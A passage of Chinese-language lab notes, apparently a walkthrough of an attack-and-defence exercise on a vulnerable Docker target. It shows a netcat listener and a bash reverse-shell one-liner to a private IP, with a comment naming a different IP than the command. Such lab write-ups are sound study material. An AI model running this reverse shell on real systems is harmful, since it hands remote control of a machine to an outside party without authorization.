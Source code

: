 
- 成功扫描到漏洞

![](../img/Dracuspicy/14.png)

#### 漏洞靶标攻防

1.测试攻击机 Shell 连接靶标容器

- 攻击机上监听端口，等待靶标容器连接

```bash
nc -l -p 7777
```

靶标容器中执行反弹 Shell 命令

```bash
# 进入靶标容器
sudo docker exec -it <container_name> /bin/bash

# 执行反弹 Shell 命令
bash -i >& /dev/tcp/192.168.38.128/7777 0>&1
# 启动一个交互式 Bash shell，并将其输入( 0>&1 重定向输入到输出)和输出( >& 重定向标准错误输出到标准输出)都通过TCP连接重定向到 192.168.4.130 的 7777 端口。
```

![](../img/Dracuspicy/18.png)
